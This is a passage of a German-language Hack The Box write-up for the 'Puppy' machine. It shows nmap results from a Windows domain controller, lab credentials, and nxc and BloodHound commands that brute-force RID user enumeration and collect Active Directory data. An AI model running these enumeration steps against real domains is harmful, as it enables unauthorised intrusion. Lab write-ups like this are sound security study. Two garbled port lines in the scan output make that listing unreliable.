 # HTB Writeup Puppy

## Initial Reconnaissance

```zsh
nmap -A xx.xx.xx.xx --min-rate 10000
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-17 15:00 EDT
Nmap scan report for xx.xx.xx.xx
Host is up (0.097s latency).
Not shown: 985 filtered tcp ports (no-response)

PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-05-18 02:00:50Z)
111/tcp   open  rpcbind      2-4 (RPC #100000)
1/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   35open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
2049/tcp  open  nlockmgr     1-4 (RPC #100021)
3260/tcp  open  iscsi?
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

**Credentials: levi.james : KingofAkron2025!**

```zsh
rm -f /home/b2syn4p53/.nxc/workspaces/default/smb.db 
```

```zsh
nxc smb puppy.htb -u 'levi.james' -p 'KingofAkron2025!' --rid-brute | grep "SidTypeUser" | \
awk -F '\\' '{print $2}' | awk '{print $1}' > users.txt  
```
Der erste Befehl löscht die NXC Workspace Datenbank.
Der zweite Befehl enumeriert Benutzerkonten vom SMB-Server `PUPPY.HTB` über RID-Bruteforce, filtert nur tatsächliche Benutzerkonten heraus und extrahiert **Benutzernamen**, die dann in die Datei `users.txt` gespeichert werden.  **SidTypeUser sind normale AD-Benutzer.**

![cat users.txt](images/20250618060659.png)

### BloodHound Enumeration

```zsh
bloodhound-python -dc dc.puppy.htb -u 'levi.james' -p 'KingofAkron2025!' \
-d puppy.htb -c All -o bloodhound_results.json -ns xx.xx.xx.xx
```
![bloodhound-result](images/20250618055654.png)
